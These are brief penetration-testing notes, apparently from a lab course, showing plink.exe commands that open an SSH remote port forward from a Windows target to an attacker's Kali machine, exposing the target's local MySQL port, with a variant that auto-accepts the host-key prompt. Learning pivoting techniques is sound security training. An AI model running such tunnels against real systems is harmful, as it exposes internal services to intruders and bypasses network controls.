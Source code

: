 ## Plink Basic Usage

We can use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali
user (-l kali) with a password of “ilak” (-pw ilak) to create a remote port forward (-R) of port
1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306) with the
following command:

```
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

--> Plink is found in /usr/share/windows-binaries
sdf

## Plink auto yes to Cache store question

```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```